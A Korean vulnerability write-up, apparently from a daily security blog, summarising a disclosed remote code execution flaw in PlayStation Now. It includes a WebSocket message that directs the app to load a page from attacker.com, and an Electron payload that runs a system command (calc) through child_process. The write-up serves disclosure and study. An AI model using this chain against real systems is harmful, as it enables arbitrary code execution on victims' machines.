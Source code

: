 ```yaml
---
title: "[하루한줄] Remote Code Execution in PlayStation Now"
author: L0ch
tags: [L0ch, remote code execution, rce, playstation, playstation now]
categories: [1day1line]
date: 2020-12-08 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[RCE in PlayStation Now](https://hackerone.com/reports/873614)

## Target

PlayStation Now ≤ 11.0.2

## Explain

게임 스트리밍 서비스 PlayStation Now에서 원격 코드 실행 취약점이 발견되었습니다.
<br>
PS Now의 주요 구성요소로는 QAS와 AGL이 있습니다. QAS는 Qt5 프레임워크로 개발된  `psnowlauncher.exe` 실행파일이며 PS Now의 메인 애플리케이션입니다.  AGL은 Electron 응용 프로그램이며 QAS에 의해 실행됩니다. 처음 로드할 페이지의 URL을 매개변수로 받아 실행이 가능합니다. 
<br>
`nodeIntegration`은 `Electron BrowserWindows`에서 실행되는 기능으로 javascript에서 Windows 프로세스를 생성할 수 있습니다. 기본값은 false지만 AGL에서는 true로 설정되어 있으며, AGL은 로드하는 URL 검증을 하지 않아 해커의 페이로드가 담긴 URL을 통해 javascript에서 임의 코드를 실행할 수 있습니다.
<br>
이 임의 코드 실행 취약점은 QAS에서 실행되는 로컬 웹 소켓 서버를 통해 원격으로 수행할 수 있습니다. 웹사이트가 다음 request를 로컬 웹 소켓 서버에 보내면 AGL에 로드된 URL을 QAS에서 실행합니다.  

```json
{
  "command": "setUrl",
  "params": {
    "url": "https://normal_url.com"
  },
  "source": "AGL",
  "target": "QAS"
}
```

그러나 source와 target을 바꿔 URL을 AGL에서 로드할 수 있도록 구성하면 원격에서 AGL이 로드할 URL을 조작할 수 있습니다.
<br>
피해자의 컴퓨터에서 PS Now와 QAS, 로컬 웹 소켓이 실행 중일 경우 아래와 같은 방법으로 원격 코드 실행이 가능합니다.

1. 브라우저로 해커의 웹사이트에 접속합니다.
2. 웹 사이트는 피해자 PC의 웹 소켓 서버 `ws://localhost:1235` 에 연결됩니다.
3. 웹사이트는 웹 소켓 서버에 다음과 같은 메시지를 보냅니다. 

    ```json
    {
    	"command":"setUrl",
    	"params":{
    		"url":"https://attacker.com/rce_payload.html"
    	},
    	"source":"QAS",
    	"target":"AGL"
    }
    ```

4. AGL은 `https://attacker.com/rce_payload.html` 를 로드합니다. 이때 `rce_payload.html`의 javascript 코드가 피해자의 PC에서 실행됩니다.

    ```jsx
    // rce_payload.html
    <html>
        <head>
            <title>PS Now RCE</title>
        </head>
        <body>
            <script>
                require('child_process')
                .exec('calc')
            </script>
        </body>
    </html>
    ```